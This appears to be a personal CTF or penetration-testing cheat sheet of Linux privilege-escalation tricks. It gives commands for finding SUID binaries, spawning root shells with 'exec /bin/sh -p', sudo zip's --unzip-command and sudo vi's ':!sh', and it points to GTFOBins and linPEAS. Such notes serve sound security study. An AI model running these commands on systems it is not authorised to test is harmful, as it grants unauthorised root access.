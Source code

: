 ```yaml
---
icon: linux
---
```


# Linux

* `sudo -l` to see what sudo can do
* [gtfobins.github.io](https://gtfobins.github.io/)
* linPEAS
* get suid binaries: `find / -perm -u=s -type f 2>/dev/null`
  * launching shell from suid binary, use `exec /bin/sh -p` to keep effective uid from being reset
    * in the case of one machine, there was a binary `.suid_bash`, the command `./.suid_bash -p` gave a root shell
* weird zip command if for some reason you have sudo zip privs: `sudo zip test.zip test.txt -T --unzip-command="sh -c /bin/bash"` -T tests the integrity of the zip, then --unzip-command specifies the command to unzip the file, so it uses that in the integrity check
* check sudo environment variables
* from sudo vi - `:!sh` to launch shell
* check ports for nfs `rpcinfo -p`
* checking strings in files
  * `strings [file]`
    * try `-e l` also
